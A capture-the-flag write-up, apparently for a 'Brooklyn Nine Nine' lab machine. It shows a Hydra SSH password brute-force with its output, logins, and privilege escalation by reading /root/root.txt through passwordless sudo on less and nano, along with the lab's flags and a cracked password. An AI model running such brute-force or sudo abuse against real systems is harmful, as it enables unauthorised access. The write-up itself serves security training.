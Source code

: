 Going through our initial review, we now have a few usernames (assumptions), as well as a password.


## ssh
```shell
hydra -t 20 -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.220.170
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-14 19:20:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 20 tasks per 1 server, overall 20 tasks, 14344399 login tries (l:1/p:14344399), ~717220 tries per task
[DATA] attacking ssh://10.10.220.170:22/
[22][ssh] host: 10.10.220.170   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-14 19:20:42
```
So we now have Jake's and Holt's password for ssh. Let's logon and see what we can find.

First of all Holt.
```script
ssh holt@10.10.220.170
holt@10.10.220.170's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```
Now what can he do with sudo -l
```script
sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
So all we need to do now is read the root file with the /bin/nano /root/root.txt command

What about jack.
```script
jake@brookly_nine_nine:/home$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:/home/holt$ /usr/bin/less /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845
```
